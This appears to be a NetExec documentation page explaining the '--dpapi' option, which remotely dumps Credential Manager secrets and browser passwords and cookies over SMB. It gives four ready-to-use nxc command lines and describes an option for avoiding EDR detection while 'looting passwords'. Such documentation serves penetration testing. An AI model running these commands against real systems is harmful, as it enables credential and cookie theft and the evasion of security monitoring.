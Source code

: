 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option: `--dpapi`. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. `--dpapi` supports the following options :

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --dpapi
nxc smb $TARGET -u $USER -p $PASSWORD --dpapi cookies
nxc smb $TARGET -u $USER -p $PASSWORD --dpapi nosystem
nxc smb $TARGET -u $USER -p $PASSWORD --local-auth --dpapi nosystem
```
